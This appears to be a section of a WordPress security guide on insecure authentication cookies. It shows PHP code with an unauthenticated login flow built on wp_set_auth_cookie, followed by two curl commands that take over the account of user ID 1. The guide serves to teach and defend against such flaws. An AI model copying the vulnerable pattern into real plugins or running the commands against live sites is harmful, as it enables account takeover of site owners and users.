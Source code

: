 ## Insecure Authentication Cookie Set

In some cases, the developer needs to log in a user with a custom identifier or process. This process is mostly seen in a custom login with a third-party process, where users only need to specify some kind of unique identifier or token to be able to log in to a WordPress site.

This process of setting up the unique identifier or token to the login process many times is implemented improperly, resulting in attacker being able to log in to any user's account by supplying a guessable or known identifier or even setting up the identifier themself.

One of the functions that could be used to log in a user is [`wp_set_auth_cookie`](https://developer.wordpress.org/reference/functions/wp_set_auth_cookie/) function. This function sets the authentication cookies based on the user ID. We only need to set the targeter user id through `$user_id` parameter and WordPress will return the authentication cookie, basically allowing the user to log in to the targeted user's account.

Example of vulnerable code :

```php
add_action("wp_ajax_nopriv_configure_platform_callback", "configure_platform_callback");
add_action("wp_ajax_nopriv_login_third_party", "login_third_party");

function configure_platform_callback(){
    $user_id = filter_input( INPUT_POST, 'user_id', FILTER_SANITIZE_STRING );
    $fbid  = filter_input( INPUT_POST, 'fbid', FILTER_SANITIZE_STRING );

    update_user_meta($user_id, "fbid", $fbid);
}

function login_third_party(){
    if ( ! isset( $_GET['fb-login'] ) ) {
        return;
    }

    $value = filter_input( INPUT_GET, 'fbid', FILTER_SANITIZE_STRING );
    $user  = get_users(
        [
            'meta_key'    => 'fbid',
            'meta_value'  => $value,
            'number'      => 1,
            'count_total' => false,
        ]
    );

    $id    = $user[0]->ID;

    wp_clear_auth_cookie();
    wp_set_current_user( $id );
    wp_set_auth_cookie( $id );
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `configure_platform_callback` function and then the `login_third_party` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=configure_platform_callback -d "user_id=1&fbid=1337"
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=login_third_party?fb-login=1&fbid=1337
``` 